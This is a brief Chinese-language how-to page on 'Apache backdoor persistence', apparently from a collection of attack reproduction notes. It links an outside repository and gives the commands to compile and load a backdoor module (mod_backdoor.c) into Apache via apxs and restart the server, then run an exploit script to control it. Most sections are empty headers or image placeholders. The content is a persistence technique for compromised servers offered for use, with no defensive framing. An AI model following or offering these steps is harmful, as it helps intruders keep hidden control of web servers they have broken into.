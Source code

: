 Apache后门维持
==============

一、漏洞简介
------------

通过运行第三方脚本，实现维持后门的方法

二、漏洞影响
------------

三、复现过程
------------

https://github.com/ianxtianxt/apache-

### 1、上传 mod\_backdoor.c到服务器，并执行命令

    apxs -i -a -c mod_backdoor.c && service apache2 restart

![](resource/Apache后门维持/media/rId25.jpg)

### 2、控制端执行方法

    python exploit.py 127.0.0.1 80

image
